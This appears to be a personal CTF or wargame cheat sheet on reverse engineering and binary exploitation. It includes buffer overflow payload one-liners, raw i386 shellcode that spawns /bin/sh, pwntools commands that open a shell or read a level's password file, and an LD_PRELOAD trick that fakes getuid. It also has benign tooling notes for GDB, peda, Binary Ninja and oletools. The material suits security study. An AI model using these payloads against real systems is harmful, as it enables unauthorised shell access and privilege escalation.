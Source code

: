 # Reverse Engineering

- [Binary ninja](#binary-ninja)
- [GCC](#gcc)
- [Lib Injection](#lib-injection)
- [Macro Office PPTM](#macro-ffice-pptm)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

## Overflow
### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

## Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

## Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```
LD_PRELOAD=./libnike.so ./exec
```

## Macro Office PPTM
### Install
```
sudo pip3 install oletools
```
### Decompress PPTM
```
olevba  -c file.pptm
```
